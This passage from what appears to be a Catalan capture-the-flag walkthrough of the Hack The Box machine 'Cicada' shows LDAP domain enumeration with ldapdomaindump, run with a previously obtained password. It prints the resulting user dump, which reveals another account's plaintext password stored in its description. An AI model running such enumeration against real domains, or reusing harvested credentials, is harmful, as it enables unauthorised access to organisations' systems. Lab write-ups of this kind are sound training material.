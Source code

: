 Hi ha la password per defecte que ja havíem obtingut. Ara utilitzarem 'ldapdomaindump' amb les credencials que hem obtingut. La comanda ldapdomaindump fa un volcat (dump) de la informació del domini LDAP, utilitzant les credencials d'un usuari amb permisos per accedir a l'entorn LDAP. Aquesta eina és útil per obtenir una visió completa de la infraestructura del domini i permet llistar informació com usuaris, grups, policies, ordinadors, i altres objectes relacionats amb Active Directory.:
```
┌──(kali㉿kali)-[~]
└─$ ldapdomaindump ldap://10.10.11.35 -u 'cicada.htb\michael.wrightson' -p 'Cicada$M6Corpb*@Lp#nZp!8'
[*] Connecting to host...
[*] Binding to host
[+] Bind OK
[*] Starting domain dump
[+] Domain dump finished

```

I ens ha generat aquests fitxers, tots els que comencen per domain*:
```
┌──(kali㉿kali)-[~]
└─$ ls                                                                                               
 Desktop     Music                 Public      domain_computers.grep   domain_computers_by_os.html   domain_groups.json   domain_policy.json   domain_trusts.json   domain_users.json            user_list_crackmapexec.txt
 Documents  'Notice from HR.txt'   Templates   domain_computers.html   domain_groups.grep            domain_policy.grep   domain_trusts.grep   domain_users.grep    domain_users_by_group.html
 Downloads   Pictures              Videos      domain_computers.json   domain_groups.html            domain_policy.html   domain_trusts.html   domain_users.html    go

```

Ara revisem els fitxers que hem obtingut del domini, i veiem que si fem un cat de domain_users.grep:
```
┌──(kali㉿kali)-[~]
└─$ cat domain_users.grep   
cn      name    sAMAccountName  memberOf        primaryGroupId  whenCreated     whenChanged     lastLogon       userAccountControl      pwdLastSet      objectSid       description
Emily Oscars    Emily Oscars    emily.oscars    Remote Management Users, Backup Operators       Domain Users    08/22/24 21:20:17       10/14/24 16:50:11       01/01/01 00:00:00       NORMAL_ACCOUNT, DONT_EXPIRE_PASSWD      08/22/24 21:20:17   S-1-5-21-917908876-1423158569-3159038727-1601
David Orelious  David Orelious  david.orelious          Domain Users    03/14/24 12:17:29       10/14/24 16:48:25       03/15/24 06:32:21       NORMAL_ACCOUNT, DONT_EXPIRE_PASSWD      03/14/24 12:17:29       S-1-5-21-917908876-1423158569-3159038727-1108       Just in case I forget my password is aRt$Lp#7t*VQ!3
Michael Wrightson       Michael Wrightson       michael.wrightson               Domain Users    03/14/24 12:17:29       10/14/24 16:42:44       10/14/24 16:50:31       NORMAL_ACCOUNT, DONT_EXPIRE_PASSWD      03/14/24 12:17:29       S-1-5-21-917908876-1423158569-3159038727-1106
Sarah Dantelia  Sarah Dantelia  sarah.dantelia          Domain Users    03/14/24 12:17:29       08/28/24 17:26:29       01/01/01 00:00:00       NORMAL_ACCOUNT, DONT_EXPIRE_PASSWD      03/14/24 12:17:29       S-1-5-21-917908876-1423158569-3159038727-1105
John Smoulder   John Smoulder   john.smoulder           Domain Users    03/14/24 12:17:28       08/28/24 17:26:15       01/01/01 00:00:00       NORMAL_ACCOUNT, DONT_EXPIRE_PASSWD      03/14/24 12:17:29       S-1-5-21-917908876-1423158569-3159038727-1104
krbtgt  krbtgt  krbtgt  Denied RODC Password Replication Group  Domain Users    03/14/24 11:14:10       03/14/24 12:16:48       01/01/01 00:00:00       ACCOUNT_DISABLED, NORMAL_ACCOUNT        03/14/24 11:14:10       S-1-5-21-917908876-1423158569-3159038727-502        Key Distribution Center Service Account
Guest   Guest   Guest   Guests  Domain Guests   03/14/24 11:09:25       10/14/24 15:55:40       10/14/24 16:41:50       PASSWD_NOTREQD, NORMAL_ACCOUNT, DONT_EXPIRE_PASSWD      08/28/24 17:26:56       S-1-5-21-917908876-1423158569-3159038727-501        Built-in account for guest access to the computer/domain
```